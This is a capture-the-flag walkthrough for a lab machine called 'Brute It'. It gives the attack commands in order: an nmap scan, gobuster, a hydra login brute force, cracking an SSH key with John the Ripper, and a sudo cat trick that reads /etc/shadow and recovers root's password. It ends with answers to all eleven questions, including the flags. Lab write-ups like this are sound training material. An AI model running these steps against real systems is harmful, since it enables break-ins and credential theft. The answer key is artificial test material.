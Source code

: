 # Brute It - Easy

```shell
nmap -T4 -A 10.10.13.74

gobuster dir -u http://10.10.13.74 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,bak

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.13.74 http-post-form "/admin/index.php:user=admin&pass=^PASS^:F=Username or password invalid"
#gives us the creds

ssh2john id_rsa > hash_id_rsa
#crack hash using john

john --wordlist=/usr/share/wordlists/rockyou.txt hash_id_rsa

#after getting passphrase
chmod 600 id_rsa

ssh john@10.10.13.74 -i id_rsa
#use passphrase

sudo -l
#shows that we can run cat
#follow exploit on GTFObins

LFILE=/root/root.txt

sudo cat "$LFILE"
#prints root flag
#print /etc/shadow and /etc/passwd in the same manner

#in attacker machine
vim passwd
#copy /etc/passwd contents in this file

vim shadow
#copy /etc/shadow contents in this file

unshadow passwd shadow > unshadowed.txt

#crack unshadowed file
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadowed.txt
#this gives password for root
```

```markdown
We run the nmap scan as required, with all apt flags.

nmap shows the following ports & services (along with the versions):

  * 22 - ssh
  * 80 - http

While the nmap scan runs, we can also scan the webserver for hidden directories.

gobuster gives us a hidden directory /admin, which leads us to a login page.

We can use hydra to bypass login page; we have to use the username 'admin'.

Hydra successfully cracks the login page and we get the creds admin:xavier.

Logging in using the creds gives us the web flag and a RSA private key.

We can use ssh2john and John the Ripper to crack the private key and get passphrase for SSH login.

This gives us the passphrase 'rockinroll'; we can use this for logging into SSH as John, along with the id_rsa file.

We get the user flag in /home/john.

For privesc, we first check what commands we can run as sudo.

We can run the cat binary as sudo, so we can check on GTFObins for exploit.

Following the exploit, we can read the root flag.

Since we can read any file using this exploit, we can read /etc/passwd and /etc/shadow and combine both of them to be cracked by unshadow to get root password.
```

1. How many ports are open? - 2

2. What version of SSH is running? - openssh 7.6p1

3. What version of Apache is running? - 2.4.29

4. Which Linux distribution is running? - Ubuntu

5. What is the hidden directory? - /admin

6. What is the user:password of the admin panel? - admin:xavier

7. What is John's RSA Private Key passphrase? - rockinroll

8. user.txt - THM{a_password_is_not_a_barrier}

9. web flag - THM{brut3_f0rce_is_e4sy}

10. What is the root's password? - football

11. root.txt - THM{pr1v1l3g3_3sc4l4t10n}
